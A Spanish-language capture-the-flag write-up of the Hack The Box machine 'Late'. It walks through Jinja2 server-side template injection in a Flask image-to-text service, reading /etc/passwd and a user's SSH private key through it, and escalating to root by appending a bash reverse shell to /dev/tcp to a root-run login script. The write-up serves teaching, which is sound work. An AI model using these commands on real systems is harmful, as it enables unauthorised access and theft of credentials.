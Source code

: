 ```yaml
---
layout      : post
title       : "Late - Hack the Box"
author      : elc4br4
image       : assets/images/HTB/Late-HackTheBox/portada.webp
category    : [ htb ]
tags        : [ Linux ]
---
```

En esta ocasión vamos a resolver la máquina Late de la plataforma HackTheBox de nivel *Easy* en la que tendremos SSTI como explotación y una escalada a través de un pequeño script, que tendremos que modificar.

![](/assets/images/HTB/Late-Hackthebox/rating-late.png)

[![HTBadge](https://www.hackthebox.eu/badge/image/533771)](https://www.hackthebox.com/home/users/profile/533771)


# Reconocimiento de Puertos

```bash
nmap -p- -n -Pn --min-rate 5000 <ip> -sCV
```

![](/assets/images/HTB/Late-Hackthebox/nmap.png)


Tenemos el puerto 22 y el puerto 80 abiertos.

Procedo a ojear el puerto 80.

# Reconocimiento Web

![](/assets/images/HTB/Late-Hackthebox/web1.png)


A primera vista no hay nada relevante, pero al mirar el código fuente de la página encuentro lo siguiente:

![](/assets/images/HTB/Late-Hackthebox/web2.png)

Encuentro un vhost que añado al archivo hosts de mi máquina.

Accedo al vhost desde el navegador y encuentro la siguiente página web.

![](/assets/images/HTB/Late-Hackthebox/web3.png)

A primera vista estamos ante una web que nos ofrece la posibilidad de convertir imágenes a documentos de texto, y que además usa la tecnología FLASK.

```text 
Flask es un framework minimalista escrito en Python que permite crear aplicaciones web rápidamente y con un mínimo número de líneas de código.
```

``Está basado en el motor de templates Jinja2.``

Capturo una imágen con texto, como esta y la subo para convertirla:

![](/assets/images/HTB/Late-Hackthebox/web4.png)

Una vez convertida se nos descargará un archivo bajo el nombre de results.txt con el siguiente contenido:

![](/assets/images/HTB/Late-Hackthebox/web5.png)


Como era obvio, nos convierte el texto de imágen en un documento de texto.

Esto me da que pensar que el servidor interpetará todo aquello que le pongamos en la foto, asique intento probar diferentes vulnerabilidades tales como LFI, RCE… sin éxito alguno.

Buscando por internet información relacionada con Flask y Jinja2 encuentro las siguientes fuentes.

[https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)

[https://medium.com/@nyomanpradipta120/ssti-in-flask-jinja2-20b068fdaeee]( https://medium.com/@nyomanpradipta120/ssti-in-flask-jinja2-20b068fdaeee)

Podríamos estar ante una vulnerabilidad SSTI (Server Side Template Injection)

# Explotación

Ya que si nos fijamos en la definición de qué es Flask encontramos que está basado en el motor de templates Jinja2.

Asique procedo a buscar más información acerca de como detectar este tipo de vulnerabilidad y encuentro lo siguiente:


![](/assets/images/HTB/Late-Hackthebox/ssti.png)

Si nos copiamos uno de estos templates, y le hacemos captura y lo subimos la página web podremos comprobar si es vulnerable a SSTI.

Uso el siguiente template:
 
```text 
{ {7 * 7} }
```

Una vez lo hemos capturado lo subimos y leemos la respuesta

![](/assets/images/HTB/Late-Hackthebox/ssti2.png)

Como vemos es vulnerable a SSTI, ya que nos devuelve el resultado de la operación 7*7=49

Sigo los pasos de la web de referencia para continuar después de haber detectado la vulnerabilidad, el siguiente paso es explotar la vulnerabilidad.

Encuentro lo siguiente:

![](/assets/images/HTB/Late-Hackthebox/ssti3.png)

Con uno de estos templates podemos leer archivos remotos del servidor.

El procedimiento es el mismo, copiar el template, capturarlo y subirlo a la web para comprobar su funcionamiento.

En mi caso probé algunos templates sin éxito hasta que di con el correcto:

![](/assets/images/HTB/Late-Hackthebox/ssti4.png)

Con este template leemos el archivo passwd

![](/assets/images/HTB/Late-Hackthebox/passwd.png)

Filtro por tipo de shell, en este caso bash

Encontramos el usuario svc_acc

A continuación intenté leer el archivo shadow por si por algún casual tuvieramos acceso y pudiéramos descifrar la contraseña del usuario svc_acc, pero obviamente no tenía permisos.

Se me ocurrió intentar leer el id_rsa del usuario svc_acc para conectarme mediante ssh (puerto 22), editando el template usado anteriormente.

![](/assets/images/HTB/Late-Hackthebox/ssti5.png)

Repetimos el procedimiento y leemos el archivo results.txt.


![](/assets/images/HTB/Late-Hackthebox/rsa.png)

Y ya tenemos el id_rsa, ahora le asignamos los permisos necesarios y nos logueamos por ssh usando la clave rsa.

![](/assets/images/HTB/Late-Hackthebox/sshrsa.png)

Listo, tengo acceso al servidor como el usuario svc_acc y ya podemos leer la flag user.txt.

# Escalada de Privilegios

A continuación toca escalar privilegios, y si nos fijamos tenemos las herramientas pspy64 y linpeas para facilitarnos la escalada.

Primero lanzo pspy64 para buscar procesos ocultos en ejecución y encuentro algo extraño.

![](/assets/images/HTB/Late-Hackthebox/pspy64.png)

Tenemos un script en bash bajo el nombre de ssh-alert.sh, leo el código y encuentro esto:

![](/assets/images/HTB/Late-Hackthebox/ssh-alert.png)

Es un script en bash que se ejecuta cuando nos logueamos por ssh.

Pruebo a introducir una reverse shell en bash para que cuanto nos logueemos nos devuelva una shell como root.

```bash
echo "bash -i >& /dev/tcp/<IP>/<PORT> 0>&1" > reverse.txt

cat reverse.txt >> ssh-alert.sh
```

![](/assets/images/HTB/Late-Hackthebox/rev-shell.png)

Ahora nos ponemos en escucha desde el puerto que hayamos puesto en la reverse shell y nos conectamos por ssh como anteriormente.


![](/assets/images/HTB/Late-Hackthebox/root.png)

